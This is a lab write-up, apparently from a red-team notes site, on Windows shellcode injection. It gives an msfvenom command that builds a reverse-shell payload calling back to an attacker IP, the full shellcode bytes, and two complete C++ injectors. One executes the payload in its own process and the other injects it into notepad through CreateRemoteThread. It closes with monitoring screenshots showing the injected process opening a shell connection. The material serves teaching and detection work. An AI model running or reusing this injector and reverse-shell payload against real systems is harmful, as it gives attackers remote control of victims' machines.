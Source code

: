 ```yaml
---
description: Injecting shellcode into a local process.
---
```


# CreateRemoteThread Shellcode Injection

This lab explores some classic ways of injecting shellcode into a process memory and executing it.

## Executing Shellcode in Local Process

First of - a simple test of how to execute the shellcode directly from a C++ program.

Generating shellcode for a reverse shell:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

![](../../.gitbook/assets/inject-shellcode.png)

C++ code to injectd and invoke the shellcode:

{% code title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
    unsigned char shellcode[] =
        "\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
        "\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
        "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
        "\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
        "\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
        "\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
        "\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
        "\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
        "\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
        "\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
        "\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
        "\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
        "\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
        "\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
        "\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
        "\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
        "\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
        "\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
        "\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
        "\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
        "\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
        "\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
        "\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
        "\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
        "\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
        "\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
        "\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
        "\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
        "\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
        "\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
        "\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
        "\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
        "\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
        "\x94\x64\x5d\xae\x2b\x90\xe1\xec";

    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}
```
{% endcode %}

Before compiling, for the sake of curiosity, let's have a look at the generated shellcode binary in a disassembler so we can get a rough idea of how our C++ code gets translated into machine code for x64:

![](../../.gitbook/assets/inject-ida.png)

Also for the sake of curiosity, I wanted to see how the injected shellcode looks in the injected process and to see where it actually is. With a 32-bit shellcode binary \(msfvenom -p windows/shell\_reverse\_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d\), the shellcode is nicely located in the main thread's stack:

![](../../.gitbook/assets/inject-shellcode-location.png)

Back to the x64 bit shellcode - compiling and executing the binary gives us the anticipated reverse shell:

![](../../.gitbook/assets/inject-process.png)

![](../../.gitbook/assets/inject-reverse-shell.png)

## Executing Shellcode in Remote Process

The below code will inject the shellcode into a notepad.exe process with PID 5428 which will initiate a reverse shell back to the attacker:

{% code title="inject-remote-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[])
{
    unsigned char shellcode[] =
        "\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
        "\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
        "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
        "\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
        "\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
        "\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
        "\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
        "\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
        "\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
        "\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
        "\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
        "\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
        "\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
        "\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
        "\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
        "\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
        "\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
        "\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
        "\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
        "\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
        "\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
        "\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
        "\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
        "\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
        "\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
        "\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
        "\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
        "\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
        "\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
        "\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
        "\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
        "\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
        "\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
        "\x94\x64\x5d\xae\x2b\x90\xe1\xec";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/inject1-1 \(1\).exe" caption="Inject shellcode to Remote Process w/ CreateRemoteThread" %}

Below shows notepad before shellcode injection - it has not initiated any TCP connections yet:

![](../../.gitbook/assets/inject-notepad-not-injected.png)

Once the code is compiled and executed, monitoring the API calls taking place on the system reveals that notepad is doing something it should not ever be doing - spawning a cmd.exe and initiating a TCP connection:

![](../../.gitbook/assets/inject-api-monitoring.png)

Checking the notepad in ProcExplorer again reveals an established TCP connection with a cmd.exe as a child:

![](../../.gitbook/assets/inject-notepad-injected.png)

Note how the notepad has a `ws2_32.dll` module loaded which should never happen in normal circumstances, since that module is responsible for `sockets` management:

![](../../.gitbook/assets/inject-notepad-dll.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-openprocess" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa366890\(v=vs.85\).aspx" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/ProcThread/process-security-and-access-rights" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887\(v=vs.85\).aspx" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethread" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms681674\(v=vs.85\).aspx" caption="" %}

